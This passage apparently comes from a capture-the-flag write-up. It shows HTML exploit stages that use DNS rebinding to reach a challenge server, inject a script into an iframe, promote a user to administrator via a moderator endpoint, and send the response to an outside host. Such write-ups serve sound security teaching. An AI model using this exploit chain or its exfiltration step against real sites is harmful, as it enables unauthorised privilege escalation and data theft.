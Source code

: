 ```html
        }
    </script>
    <head>Stage 2 of the Exploit</head>
    <body onload="exploit()"></body>
</html>
```

The last one is actually an ejs template.

```html
<html>
    <head>Stage 3 of the Exploit</head>
    <script>
        const sleep = (ms) => new Promise((r) => setTimeout(r, ms));

        function injectFunc(){
            fetch("/moderator/promote", {
                    method: "POST",
                    headers: {
                        "Content-Type": "application/json"
                    },
                    body: JSON.stringify({ username: "<%= username %>", permission: "\u001administrator"})
                }
            ).then(e=>e.text()).then(e=>{fetch('http://dummy-domain-for-debug/?a='+e)})
        }

        function injectScript(frame) {
            let doc = frame.contentDocument || frame.contentWindow.document
            let iframe = document.createElement("iframe")
            iframe.srcdoc = `<script>${injectFunc.toString()}; injectFunc()<\x2fscript>`
            doc.body.append(iframe)
        }

        async function pwn(){
            /**
             * This fetch will kill our DNS Rebinding server.
             * This is because we need to perform the request in same-origin with the challenge server.
             * By killing our server, the request will go to the other A Record (which is the challenge URL).
             * Once again maybe we need to saturate the cache with some dummy fetch.
             * Then we can inject a script into the iframe.
            */
            fetch("/bye")
            for (let i = 0; i < 50; i++) {
                await sleep(100);
            }
            var frame = document.getElementById("frame")
            frame.src = window.location+"/../../login"
            await sleep(500)
            injectScript(frame)
        }
    </script>
    <body onload="pwn()">
        <iframe id="frame"></iframe>
    </body>
</html>
```
